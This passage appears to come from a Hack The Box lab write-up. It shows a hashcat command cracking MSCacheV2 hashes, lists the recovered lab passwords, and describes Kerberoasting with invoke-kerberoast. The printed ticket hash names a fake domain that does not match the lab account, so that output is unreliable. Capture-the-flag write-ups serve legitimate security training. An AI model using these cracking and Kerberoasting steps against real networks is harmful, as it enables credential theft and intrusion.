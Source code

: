 ```
hashcat64 -a 0 -m 2100 -r rules\best64.rule mscachev2.txt passwords\*
```

Bingo! We cracked the two hashes:

 - p00_dev: Development1!
 - p00_adm: ZQ!zaq1

... but when we try p00_adm later we'll find out that it's an old password that doesn't work.

So what we'll do instead is use `invoke-kerberoast` to get the TGS ticket hashes and crack them offline:

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_20.png)

```
SamAccountName       : p00_adm
DistinguishedName    : CN=p00_adm,CN=Users,DC=intranet,DC=poo
ServicePrincipalName : cyber_audit/intranet.poo:443
Hash                 : 
$krb5tgs$23$*ID#124_DISTINGUISHED NAME: 
                       CN=fakesvc,OU=Service,OU=Accounts,OU=EnterpriseObjects,DC=asdf,DC=pd,DC=fakedomain,DC=com SPN: 
                       F3514235-4C06-11D1-AB04-00D04FC2DCD2-GDCD/asdf.asdf.pd.fakedomain.com:50000 *9620431D1BC1A2DF294
                       A18B600DC2059$B10813B73B0CBBA3446682112C221A01BDE25B8FCE87B66F3967CD45FFEE9E6446C16D4D90EA0956E3
                       C9BEFDFC3C9855007C323BB99BC397063024FCB5CD34B3EFD0B1280A13F0D1200E543A6A71BEBB4AF120F20B32B7C4BE
                       BBC8660F01B973B382697E934493127294DD302B7AB10A117B22C5FBEE38B0ECF5B0525BCCE1F437B03E00A8C58243FF
                       9CA6EF986AE9D92335F5412C22D96E96592F8CB9AFA0F93966BFBC48DA58C2A2333169599301A236D36CE9B26EFA30F7
                       A6ED991C0EB139D9293930F8DC7B4BBB8675ECF273EC4D218F349A188B314B569F57570C06FF1C2B0FB06B22C37FAF46
                       78FF92B4D7FE37E14DBF3A5C383B12973B4509173D50688B431D33F5E8B97F009AA14218E787E3FBB4794BD930B38515
                       82AEBD8935B8E399CC146FD8684D5FC4291643A11D6130F1D8879CAFEB48CE06C709D3D4FBC2AE10748960CB6CD3A12D
                       C80F55996CD92237FC8C2A72593797AECA14B8DD1A3F46255C7158D23C2E673CC6217255A588AF9FA747B6535EA2937C
                       808DA782BBBF6BEDDEEC84470AF914A35E581B735A288354A4CE9DA724C34C1AA1523D2730B6ECDF93FEBCE76309B969
                       D9CDD71CA2762E932939AB56210340E95E4F8A6FE9B59F4C0FACA946FF96C0D46F00C6703A4531B768AB5DCAC09EAF52
                       6CFE58FD1DE7C2E69E04C2124CC7104E71FADAC495027A5C7F72347EBA61FE119A5C5ACE54E1EE6E10BD4204775E83AD
                       668767D59366F3D293E8747A9C7AD60345B74226FCE4FA3A65E1E04861BE3B2734361D4C5B5FA7632F44758110E4C912
                       2F5B2F6144121EA3E6EE2DAD9C3350889B0D26CCEB506A136ECEC225ED18FC294DF62BDB7D6B4A14F448A6258D3C702D
                       98371B1873B8738A4F4AAD87C5C3FCF65B7AD3B1E5AB81BF40DEBC05605130CDC82F35B6936A543746EB36C42A98893F
                       659434436DC391B8CFFB3376EF323B5ABCA66345297221CC5038C0B6905185A9F1A3CED3537BBA4F3ECE5EEE6A363EFF
                       FE9D532E6DB81DB29CCB4206E877E36B2AA5DB0DB1F0E430808C6E844277D51BF65D393123692E6381E3DB2219D782FA
                       FAF49511A4692E3CD3650DD51D987522D6F06281E3A1FE84A7D1DD9028F08D1C66581BED8EA82E6FB0D67FAB73CC3FBB
                       5FB2339A136FF7CE9D0E6E17D0FE50E84FC57D1A2B69BABEA4EA77EA2E0D036F6CE6B3BD3929E6EE50679C8CECEDA6FD
                       1C46A345D9BBCC5A9163B643C0D0A66AB2D9A936CACEA7E14B659DF2F414833F8AB03404A947A49431C0E458D136D758
                       EF79709F8BB580D85CC3B8F0D9990DE9EC193B770150A3ED3470019B7D5FFC0F9515F6AFC73C8D435166BE05D5F72506
```